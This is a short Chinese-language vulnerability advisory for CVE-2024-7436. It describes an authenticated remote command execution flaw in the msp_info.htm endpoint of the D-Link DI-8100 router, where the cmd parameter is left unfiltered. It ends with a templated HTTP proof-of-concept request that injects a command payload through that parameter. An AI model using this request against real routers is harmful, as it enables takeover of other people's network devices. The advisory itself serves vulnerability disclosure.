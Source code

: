 # CVE-2024-7436

>   D-Link DI-8100是D-Link专为中小型网络环境设计的宽带路由器，支持最多4个互联网端口和最多4个局域网端口。

## 来源

[https://github.com/aLtEr6/pdf](https://github.com/aLtEr6/pdf)

## 简介

D-Link DI-8100的msp_info.htm接口存在远程命令执行漏洞，由于msp_info.htm的对cmd参数未做过滤处理，获取登录权限的攻击者可通过构造请求执行任意命令，进而接管该服务器。

## 漏洞类型

远程命令执行

## 影响范围

-   D-LINK DI-8100 16.07

## POC

```http
GET /msp_info.htm?flag=cmd&cmd={{payload}} /1.1
Host: {{Host}}
Cookie: {{Cookie}}
```

